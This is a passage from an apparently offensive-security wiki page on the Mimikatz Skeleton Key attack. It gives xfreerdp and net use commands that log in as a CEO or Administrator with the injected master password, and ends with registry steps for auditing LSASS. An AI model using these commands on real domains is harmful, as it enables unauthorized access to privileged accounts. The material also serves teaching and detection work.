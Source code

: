 ![](<../../../../.gitbook/assets/image (1987).png>)

With the above confirming the Lsass.exe process being successfully patched the password `mimikatz` can be used to authenticate as any user in the domain.

### Usage Examples

### RDP

RDP can be used to authenticate against the Skeleton Key to access high level accounts from a GUI. Below we can access the CEO's desktop directly.

```bash
xfreerdp /v:<IP> /u:<User> /p:<mimikatz> /d:<Domain> #Syntax
xfreerdp /v:10.10.10.9 /u:CEO /p:mimikatz /d:security.local
```

### Mapping Remote Shares

```bash
net use <DriveLetter:> \\<IP>\<Share> /user:<User> mimikatz #Syntax
net use Z: \\10.10.10.9\ADMIN$ /user:Administrator mimikatz
```

###

## Detection

### Enable audit mode for Lsass.exe (Single System)

Edit the registry to the following:

* HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe.
* Set the value of the registry key to AuditLevel=dword:00000008.
* Restart the system
